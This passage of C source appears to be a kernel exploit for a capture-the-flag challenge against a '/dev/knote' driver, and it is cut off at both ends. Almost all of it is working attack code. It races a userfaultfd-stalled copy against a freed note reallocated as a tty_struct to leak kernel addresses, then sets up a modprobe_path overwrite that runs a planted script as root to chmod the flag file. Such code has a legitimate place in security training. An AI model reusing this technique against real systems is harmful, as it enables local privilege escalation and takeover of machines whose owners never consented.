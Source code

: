 ```c
                          ~(page_size - 1);
        uffdio_copy.len = page_size;
        uffdio_copy.mode = 0;
        uffdio_copy.copy = 0;
        if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1)
            errExit("ioctl-UFFDIO_COPY");

        return NULL;
    }
}

int main(){

    saveStatus();
    page_size = sysconf(_SC_PAGE_SIZE);
    page = malloc(0x1000);
    memset(page, '0', 0x1000);
    faultBuffer = (char*)mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    registerUserFaultFd(faultBuffer, 0x1000, (void*)fault_handler_thread);

    int shellFile = open("/getFlag", O_RDWR | O_CREAT);
    char* shellCode = "#!/bin/sh\n"
                      "chmod 777 /flag";
    write(shellFile, shellCode, strlen(shellCode));
    close(shellFile);
    system("chmod +x /getFlag");

    fd = open("/dev/knote", O_RDWR);
    add(TTY_STRUCT_SIZE);
    int pid = fork();
    if(pid < 0)
        errExit("Fork failed");
    else if(pid == 0){
        puts(GREEN "Child process sleeping..." CEND);
        sleep(2);
        puts(GREEN "Ready to delete note in child process..." CEND);
        dele(0);
        sleep(1);
        puts(GREEN "Ready to open /dev/ptmx in child process..." CEND);
        open("/dev/ptmx", O_RDWR);
        exit(0);
    }else
        get(0, faultBuffer);

    print_binary(faultBuffer, TTY_STRUCT_SIZE);
    u_int64_t do_sak_work = *((u_int64_t*)(faultBuffer + 0x2B0));
    if(!do_sak_work)
        errExit("Failed to get do_SAK_work!");
    printf(GREEN "Successfully got address of do_SAK_work: %#zx" CEND, do_sak_work);
    u_int64_t offset = do_sak_work - DO_SAK_WORK_ADDR;  // offset got

    commit_creds = offset + COMMIT_CREDS;               // get address of commit_creds
    prepare_kernel_cred = offset + PREPARE_KERNEL_CRED; // get address of prepare_kernel_cred
    u_int64_t modprobe_path = offset + MODPROBE_PATH;   // get address of modprobe_path

    add(0x100);
    memcpy(page, &modprobe_path, 8);
    pid = fork();
    if(pid < 0)
        errExit("Fork failed");
    else if(pid == 0){
        puts(GREEN "Child process sleeping..." CEND);
```